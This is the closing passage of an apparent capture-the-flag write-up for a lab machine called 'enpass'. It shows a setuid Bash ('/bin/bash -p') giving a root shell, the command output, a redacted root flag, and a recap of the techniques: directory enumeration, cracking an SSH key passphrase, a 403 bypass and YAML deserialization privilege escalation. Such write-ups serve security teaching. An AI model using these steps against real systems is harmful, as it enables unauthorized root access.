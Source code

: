 **It worked! Let's spawn a root Bash shell:**
```
imsau@enpass:~$ /bin/bash -p
bash-4.3# whoami;hostname;id;ip a
root
enpass
uid=1002(imsau) gid=1002(imsau) euid=0(root) egid=0(root) groups=0(root),1002(imsau)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:ae:2e:91:51:3b brd ff:ff:ff:ff:ff:ff
    inet 10.10.153.216/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::ae:2eff:fe91:513b/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

## Rooted

**root.txt:**
```
bash-4.3# cat /root/root.txt
{Redacted}
```

# Conclusion

What we've learned:

1. Enumerating Hidden Directories & Files via `gobuster`
2. Cracking Private SSH Key Passphrase
3. Bypassing HTTP Status 403 Forbidden 
4. Vertical Privilege Escalation via Exploiting Insecure Deserialization in Python's YAML Library